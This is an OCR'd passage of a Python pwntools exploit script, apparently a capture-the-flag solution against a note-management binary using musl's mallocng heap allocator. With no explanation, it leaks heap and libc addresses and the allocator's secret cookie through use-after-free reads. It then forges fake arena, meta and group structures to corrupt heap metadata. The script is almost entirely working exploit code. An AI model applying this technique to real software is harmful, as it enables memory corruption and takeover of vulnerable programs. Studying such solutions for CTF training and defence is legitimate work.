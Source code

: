 ```
   
#gdb.attach(p)
add(0x30,b"\x00\n",0x30,b"aaaaaaaaaaaaaaaa\n")
add(0x30,b"abHU\n",0x30,b"aaaaaaaa\n")
add(0x30,b"a\n",0x30,b"aaaa\n")
delete(0x30,b"\x00\n")#0x7ffff7ffeca0 0x7ffff7ffece0 0x7ffff7ffec60
delete(0x30,b"a\n")

query(0x30, b"\x00\n")

add(0x10,b"1\n",0x50,b"abcd\n")

query(0x30,b"\x00\n")

p.recvuntil(b"0x10:")
heap=u64(bytes.fromhex(p.recv(16).decode()))
libc=u64(bytes.fromhex(p.recv(16).decode()))-0x7ffff7ffe080+0x7ffff7f47000
print(hex(heap),hex(libc))



add(0x20,b"\x01\n",0x20,b"bbbbbbbb\n")
add(0x20,b"abHV\n",0x20,b"bbbbbbbb\n")
#gdb.attach(p)
fake_note = p64(libc-0x7ffff7f47000+0x00007ffff7ffe270)+p64(libc-0x7ffff7f47000+0x7FFFF7FFBAC0)+p64(1)+p64(8)+p64(0xb4c061d6)+p64(0)[:7]+b"\n"
delete(0x20,b"\x01\n")#0x555555561f40

add(0x30,b"111111\n",0x30,fake_note)
add(0x30,b"222222\n",0x30,b"bbbbbb\n")

add(0x20,b"aaaa\n",0x20,b"aaaa\n")
add(0x20,b"aaaa\n",0x20,b"aaaa\n")
add(0x20,b"aaaa\n",0x20,b"\x01\n")

query(0x20,b"\x01\n")
p.recvuntil(b"0x8:")
cookie=u64(bytes.fromhex(p.recv(16).decode()))
print(hex(cookie))

delete(0x30,b"111111\n")

fake_note = p64(libc-0x7ffff7f47000+0x00007ffff7ffe270)+p64(libc-0x1000+0x60)+p64(1)+p64(8)+p64(0xb4c061d6)+p64(0)[:7]+b"\n"
add(0x30,b"3333\n",0x30,fake_note)

fake_marena = p64(cookie) + p64(0)
fake_mem=p64(0)+p64(0)+p64(libc-0x1000+0x40)+p64(0)+p64(0x362)+p64(0)
fake_group=p64(libc-0x1000+0x10)+p64(0x0001e00000000002)+p64(heap-0x555555560c60+0x555555562890)+p64(0x0001a00000000000)

#gdb.attach(p)

add(0x20,b"12\n",0x800,b"aaaa\n")
add(0x20,b"13\n",0x800,b"3"*(0x2000-0x1ac0)+fake_marena+fake_mem+fake_group+b"\x00"*0x120+p64(0)+p64(0x0002c)+b"\n")#libc-0x7ffff7f47000+0x7ffff7f41ac0
#fake_mem=p64(0)+p64(0)+p64(0x555555562880)+p64(0)+p64(0x1)+p64(0)
#fake_group=p64(0x555555562850)+p64(0x0000c00000000000)+p64(0x555555562890)+p64(0x0001a00000000002)
#add(0x20,"aaaa\n",0x1000,"11111111\n")]';,,
#gdb.attach(p)

#add(0x20,"a1\n",0x100,"44444444\n")
#add(0x20,"a2\n",0x100,"44444444\n")
```